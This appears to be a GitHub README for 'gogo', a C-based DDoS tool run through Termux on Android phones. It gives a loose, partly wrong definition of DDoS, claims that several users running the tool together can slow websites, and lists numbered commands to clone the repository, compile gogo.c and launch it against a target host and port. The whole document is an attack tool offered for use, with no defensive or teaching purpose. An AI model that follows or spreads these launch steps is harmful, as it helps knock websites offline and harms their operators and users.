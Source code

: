 # gogo

DDoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the gogo Tool?
This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux?
Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.)
Termux gogo installation?
Download Termux from Google Play…

 Write Commands, respectively

(1) apt update

(2) apt upgrade

(3) pkg install git

(4) pkg install clang

(5) git clone https://github.com/ItsMeAbhishekRai/gogo

(6) cd gogo

(7) clang gogo.c -o gogo

(8) ./gogo www.example.com 80
